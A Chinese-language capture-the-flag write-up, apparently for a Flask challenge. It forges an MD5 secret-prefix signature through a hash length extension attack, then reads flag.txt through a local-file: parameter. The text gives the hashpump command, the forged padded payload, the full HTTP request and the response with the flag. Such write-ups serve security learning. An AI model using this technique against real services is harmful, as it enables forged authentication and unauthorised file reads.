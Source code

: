 FLASK的框架，给了提示，说是flag在flag.txt

`geneSign()`调用`getSign()`拼接`秘钥＋param+action`，生成sign,在`/geneSign`，我们可获得sign，`/De1ta`调用`Task::EXEC()`，这里提供的`scan`用于将param指定的文件写入result.txt，这里提供的`read`用于读取param指定的文件。

已知密文长度，并且一直密文，还知道加密规则，考察hash拓展攻击

```php
/geneSign?param=local-file:flag.txt
```

获得sign：`24efa347d32d4e10bdd25ed88d6364e7`



伪造sign：

```php
hashpump -s 24efa347d32d4e10bdd25ed88d6364e7 -d local-file:flag.txtscan -a read -k 16
3763fc3c87f9bb1f46c0bd6b8b759a2d
local-file:flag.txtscan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x008\x01\x00\x00\x00\x00\x00\x00read



3763fc3c87f9bb1f46c0bd6b8b759a2d
local-file:flag.txtscan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%008%01%00%00%00%00%00%00read
```



payload:

```php
GET /De1ta?param=local-file:flag.txt HTTP/1.1
Host: f5bd1e63-bd41-401f-aefa-cfa545ec4871.node2.buuoj.cn.wetolink.com:82
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: action=scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%008%01%00%00%00%00%00%00read; sign=3763fc3c87f9bb1f46c0bd6b8b759a2d

```



response:

```php
HTTP/1.1 200 OK
Server: openresty
Date: Fri, 27 Sep 2019 06:29:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 69
Connection: close

{"code": 200, "data": "flag{a1368758-4c60-42a0-8c98-3d519ae53f21}\n"}
```
